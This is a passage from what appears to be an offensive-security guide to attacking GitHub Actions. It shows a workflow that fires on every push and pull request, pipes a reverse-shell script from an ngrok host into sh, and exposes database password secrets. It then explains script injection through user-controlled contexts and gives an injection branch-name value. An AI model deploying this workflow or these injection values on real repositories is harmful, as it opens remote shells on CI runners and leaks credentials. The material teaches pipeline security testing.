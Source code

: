 #### Get reverse shell with secrets

```yaml
name: revshell
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  create_pull_request:
    runs-on: ubuntu-latest
    steps:
      - name: Get Rev Shell
        run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

### Script Injections <a href="#understanding-the-risk-of-script-injections" id="understanding-the-risk-of-script-injections"></a>

Note that there are certain [**github contexts**](https://docs.github.com/en/actions/reference/context-and-expression-syntax-for-github-actions#github-context) \*\*\*\* whose values are **controlled** by the **user** creating the PR. If the github action is using that **data to execute anything**, it could lead to **arbitrary code execution**. These contexts typically end with `body`, `default_branch`, `email`, `head_ref`, `label`, `message`, `name`, `page_name`,`ref`, and `title`. For example (list from this [**writeup**](https://medium.com/tinder/exploiting-github-actions-on-open-source-projects-5d93936d189f)):

* github.event.comment.body
* github.event.issue.body
* github.event.issue.title
* github.head\_ref
* github.pull\_request.\*
* github.\*.\*.authors.name
* github.\*.\*.authors.email

Note that here are **less obvious sources** of potentially untrusted input, such as branch names and email addresses, which can be **quite flexible in terms of their permitted content**. For example, `zzz";echo${IFS}"hello";#` would be a valid branch name and would be a possible attack vector for a target repository.

#### Example of a script injectiona attack <a href="#example-of-a-script-injection-attack" id="example-of-a-script-injection-attack"></a>

A script injection attack can occur directly within a workflow's inline script. In the following example, an action uses an **expression to test the validity of a pull request title**, but also adds the risk of script injection:

